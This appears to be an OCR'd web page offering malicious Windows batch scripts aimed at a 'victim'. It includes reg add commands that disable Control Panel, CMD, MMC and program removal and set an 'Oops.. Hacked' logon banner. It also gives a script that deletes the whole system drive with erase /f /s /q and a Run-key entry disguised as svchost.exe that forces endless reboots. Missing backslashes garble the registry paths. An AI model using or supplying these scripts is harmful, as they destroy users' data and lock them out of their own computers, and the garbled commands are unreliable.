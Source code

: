 reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem /v NoDispScrSavPage /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem /v NoDispAppearancePage /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem /v NoDispSettingsPage /t REG_DWORD /d 00000001

reg add HKCUSoftwarePoliciesMicrosoftWindowsSystem /v DisableCMD /t REG_DWORD /d 00000002

reg add HKLMSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem /v legalnoticecaption /d Oops..

reg add HKLMSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem /v legalnoticetext /d …Hacked…

reg add HKCUSoftwarePoliciesMicrosoftMMC /v RestrictToPermittedSnapins /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionExplorerAdvanced /v Start_ShowPrinters /t REG_DWORD /d 00000000

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionExplorerAdvanced /v Start_AdminToolsRoot /t REG_DWORD /d 00000000

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionExplorerAdvanced /v Start_ShowMyComputer /t REG_DWORD /d 00000000

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionExplorerAdvanced /v WebView /t REG_DWORD /d 00000000

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesUninstall /v NoAddRemovePrograms /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesUninstall /v NoAddPage /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesUninstall /v NoRemovePage /t REG_DWORD /d 00000001

reg add HKCUControl PanelInternational /v sTimeFormat /d H:mm:ss

reg add HKU.DEFAULTSoftwareMicrosoftWindowsCurrentVersionExplorerAdvanced /v WebView /t REG_DWORD /d 00000000

Exit

    Crash the OS : This code can just simply crash Windows. Note that you can have problems when using this code because some times it doesn’t work.

@echo off

erase %systemdrive%*.* /f /s /q

exit

    Keep Victim’s Computer Rebooting : Another annoying code which can have tough effects on an inexperienced user. You will also notice that how simple things can leave Windows with no defense.

@echo off

reg add HKLMSOFTWAREMicrosoftWindowsCurrentVersionRun /f /v “svchost.exe” /d “shutdown -r -t 00”

exit
